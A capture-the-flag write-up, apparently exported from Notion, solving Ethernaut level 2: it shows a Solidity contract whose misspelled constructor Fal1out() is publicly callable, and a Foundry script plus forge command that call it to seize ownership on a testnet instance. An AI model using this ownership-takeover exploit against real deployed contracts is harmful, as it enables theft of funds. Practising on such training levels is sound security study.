 ```yaml
---
title: "Fal1out"
date: "2024-01-16"
lastmod: "2024-02-12T14:37:00.000Z"
draft: false
difficulty: "⭐"
prev: "Fallback-0f16d7ea49bd4084a635ec4d24c77563"
weight: 2
state: "Terminé"
level-url: "https://ethernaut.openzeppelin.com/level/2"
next: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
type: "docs"
NOTION_METADATA:
  object: "page"
  id: "eb9fe61a-4da9-4324-8fa3-63e1918dd9f6"
  created_time: "2024-02-12T13:39:00.000Z"
  last_edited_time: "2024-02-12T14:37:00.000Z"
  created_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  last_edited_by:
    object: "user"
    id: "7866207c-089f-43df-9333-1dc33859c6a9"
  cover: null
  icon:
    type: "external"
    external:
      url: "https://ethernaut.openzeppelin.com/imgs/BigLevel2.svg"
  parent:
    type: "database_id"
    database_id: "cb6853ff-d731-4d6a-9080-6c8efeec5b1c"
  archived: false
  properties:
    difficulty:
      id: "IAjo"
      type: "select"
      select:
        id: "FPYQ"
        name: "⭐"
        color: "gray"
    prev:
      id: "LLP%5C"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Fallback-0f16d7ea49bd4084a635ec4d24c77563"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Fallback-0f16d7ea49bd4084a635ec4d24c77563"
          href: null
    date:
      id: "Y%40Gy"
      type: "date"
      date:
        start: "2024-01-16"
        end: null
        time_zone: null
    weight:
      id: "%5Dyda"
      type: "number"
      number: 2
    state:
      id: "f%40ps"
      type: "status"
      status:
        id: "abb7fad3-add1-4b13-946c-06bff36598bf"
        name: "Terminé"
        color: "green"
    level-url:
      id: "juZs"
      type: "url"
      url: "https://ethernaut.openzeppelin.com/level/2"
    next:
      id: "pocA"
      type: "rich_text"
      rich_text:
        - type: "text"
          text:
            content: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Coin-Flip-c27578d40d2f427d968d5623d7000dab"
          href: null
    type:
      id: "s%7DKc"
      type: "select"
      select:
        id: "OnJy"
        name: "docs"
        color: "default"
    title:
      id: "title"
      type: "title"
      title:
        - type: "text"
          text:
            content: "Fal1out"
            link: null
          annotations:
            bold: false
            italic: false
            strikethrough: false
            underline: false
            code: false
            color: "default"
          plain_text: "Fal1out"
          href: null
  url: "https://www.notion.so/Fal1out-eb9fe61a4da943248fa363e1918dd9f6"
  public_url: null
UPDATE_TIME: "2024-02-14T14:49:47.077Z"

---
```

<link rel="stylesheet" href="https://cdn.jsdelivr.net/npm/katex@0.16.2/dist/katex.min.css" integrity="sha384-bYdxxUwYipFNohQlHt0bjN/LCpueqWz13HufFEV1SUatKs1cm4L6fFgCi1jT643X" crossorigin="anonymous">


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Fallout {
  
  using SafeMath for uint256;
  mapping (address => uint) allocations;
  address payable public owner;


  /* constructor */
  function Fal1out() public payable {
    owner = msg.sender;
    allocations[owner] = msg.value;
  }

  modifier onlyOwner {
	        require(
	            msg.sender == owner,
	            "caller is not the owner"
	        );
	        _;
	    }

  function allocate() public payable {
    allocations[msg.sender] = allocations[msg.sender].add(msg.value);
  }

  function sendAllocation(address payable allocator) public {
    require(allocations[allocator] > 0);
    allocator.transfer(allocations[allocator]);
  }

  function collectAllocations() public onlyOwner {
    msg.sender.transfer(address(this).balance);
  }

  function allocatorBalance(address allocator) public view returns (uint) {
    return allocations[allocator];
  }
}
```


We have to claim the owner ship of the program, we can see that their is nothing that seems to prevent us from calling Fal1out() so let’s try that:


```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "forge-std/Script.sol";
import "forge-std/console.sol";


interface Fallout {
  function allocatorBalance(address allocator) external view returns (uint);

  function Fal1out() external payable;

  function allocate() external payable;

  function sendAllocation(address payable allocator) external;

  function collectAllocations() external;
}

contract POC is Script {
    function run() external {
        uint256 deployerPrivateKey = vm.envUint("PRIVATE_KEY");
        address addr = vm.envAddress("INSTANCE_02");
        console.logAddress(addr);
        vm.startBroadcast(deployerPrivateKey);

        Fallout instance = Fallout(addr);
        instance.Fal1out{value: 1}(); //value 1 isnot needed but just in case


        vm.stopBroadcast();
    }
}
```


```solidity
source .env
forge script ./script/02.s.sol --rpc-url $SEPOLIA_RPC_URL --broadcast --verify -vvvv
```

